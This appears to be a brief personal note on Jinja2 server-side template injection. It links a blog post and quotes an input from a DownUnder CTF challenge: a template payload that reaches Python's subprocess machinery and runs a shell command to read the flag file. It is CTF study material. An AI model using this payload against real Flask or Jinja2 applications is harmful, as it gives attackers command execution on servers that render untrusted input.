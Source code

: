 

#jinja2 
https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/

### usage examples:

During the downunder CTF - a challenge used this to expose the flag. The input was:
`{{ ''.__class__.__mro__[1].__subclasses__()[213]('/usr/bin/cat flag', shell=True, stdout=-1).communicate() }}`
